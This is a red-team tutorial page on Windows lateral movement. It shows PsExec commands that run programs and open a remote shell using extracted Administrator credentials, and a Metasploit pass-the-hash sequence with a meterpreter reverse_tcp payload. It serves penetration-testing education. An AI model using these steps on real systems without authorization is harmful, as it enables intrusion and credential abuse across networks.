 ```yaml
---
slug: windows-red-team-lateral-movement-techniques
description: 'This guide covers the process of performing lateral movement on Windows systems.'
keywords: ['security']
tags: ['security']
license: '[CC BY-ND 4.0](https://creativecommons.org/licenses/by-nd/4.0)'
published: 2021-11-03
modified_by:
  name: Linode
title: "Windows Red Team Lateral Movement Techniques"
contributors: ["HackerSploit"]
---
```


{{< content "hackersploit-red-team-series-note-shortguide" >}}

{{< content "hackersploit-caution-shortguide" >}}

## Before You Begin

In order to follow along with the tools and techniques utilized in this document, you will need to use one of the following offensive Linux distributions:

- Kali Linux
- Parrot OS

The following is a list of recommended technical prerequisites that you will need in order to get the most out of this course:

- Familiarity with Linux system administration.

- Familiarity with Windows.

- Functional knowledge of TCP/IP.

- Familiarity with penetration testing concepts and life-cycle.

Note: The techniques and tools utilized in this document were performed on Kali Linux 2021.2 Virtual Machine

## MITRE ATT&CK Lateral Movement Techniques

Lateral Movement consists of techniques that adversaries use to enter and control remote systems on a network. Following through on their primary objective often requires exploring the network to find their target and subsequently gaining access to it. Reaching their objective often involves pivoting through multiple systems and accounts to gain. Adversaries might install their own remote access tools to accomplish Lateral Movement or use legitimate credentials with native network and operating system tools, which may be stealthier.

![MITRE ATT&CK lateral movement techniques](mitre-attack-lateral-movement-techniques.png "MITRE ATT&CK lateral movement techniques")

The following is a list of key techniques and sub techniques that we will be exploring:

- Remote Services

- Alternate Authentication

Our objective is to utilize clear-text passwords and hashes that we extracted to facilitate lateral movement through legitimate authentication protocols/methods.

## Lateral Movement With PsExec

PsExec is a lightweight telnet-replacement that lets you execute processes on other systems, complete with full interactivity for console applications, without having to manually install client software. PsExec's most powerful uses include launching interactive command-prompts on remote systems and remote-enabling tools like IpConfig that otherwise do not have the ability to show information about remote systems.

We can use the PsExec utility to authenticate with the target system legitimately and run arbitrary commands or launch a remote command prompt.

We will be running PsExec from our Windows VM as you may encounter a few issues when running PsExec on Linux with Wine.

Note: We will be utilizing the credentials we extracted from the Windows 10 target system in the Credential Access Video.

1. You can download PsExec from the following link: https://docs.microsoft.com/en-us/sysinternals/downloads/psexec

1. After downloading PsTools archive, you will need to extract it and open a Windows command prompt in the extracted folder.

1. We can execute a command on the target system with PsExec by specifying the computer name/IP address, username, and password. This can be done by running the following command:

        ./PsExec64.exe \\<TARGET-IP> -u Administrator -p <PASSWORD> ipconfig

    In this case, we will execute the ipconfig command on the target system in order to verify that we can authenticate successfully with PsExec.

    ![PsExec - execute ipconfig command on target](psexec-execute-ipconfig-command-on-target.png "PsExec - execute ipconfig command on target")

    As highlighted in the preceding screenshot, PsExec authenticates with the target system, executes the ipconfig, and provides us with the output of the command.

1. Alternatively, we can also initiate a remote command prompt session with the target system by running the following command:

        ./PsExec64.exe \\<TARGET-IP> -u Administrator -p <PASSWORD> cmd.exe

    As highlighted in the following screenshot, we are able to authenticate successfully and obtain a remote command shell session on the target system.

    ![PsExec - remote shell](psexec-remote-shell.png "PsExec - remote shell")

    We can now utilize the remote command session to scan and ping for other hosts on the network that we can pivot to.

## Pass-the-Hash

If you weren’t able to extract any cleartext passwords from the target system, you can utilize the pass-the-hash Metasploit module that leverages PsExec in order to authenticate with SMB (Server Message Block) using a user account’s NTLM hash.

Pass-the-hash is a technique that is used by attackers to authenticate to a remote host by using the underlying NTLM or LanMan hash of a user's password, instead of requiring the associated plaintext password.

For this section, our target system will be running Windows 10. As a prerequisite, ensure that you have gained your initial foothold on the system and have a meterpreter session

1. The first step will involve loading the SMB PsExec Metasploit module, this can be done by running the following command on the Kali terminal:

        use exploit/windows/smb/psexec

1. After loading the module, you will need to configure the module payload, this can be done by running the following command:

        set payload windows/x64/meterpreter/reverse_tcp

1. You will also need to set the SMBPass and SMBUser options with the NTLM hash and name of the user account. This can be done by running the following commands:

        set SMBUser <USERNAME>

    Note: In this case, we will be setting the “SMBUser” option to “Administrator”.

        set SMBPass <NTLM Hash>

1. Finally, you will need to set the target system IP address, this can be done by running the following command:

        set RHOSTS <TARGET-IP>

1. After configuring the options, we can execute the module by running the following command:

        run

1. If authentication is successful, you should receive a new meterpreter session with the privileges of the user you authenticated with as shown in the screenshot below.

    ![Meterpreter session from PsExec with Pass-the-Hash](meterpreter-session-from-psexec-with-pass-the-hash.png "Meterpreter session from PsExec with Pass-the-Hash")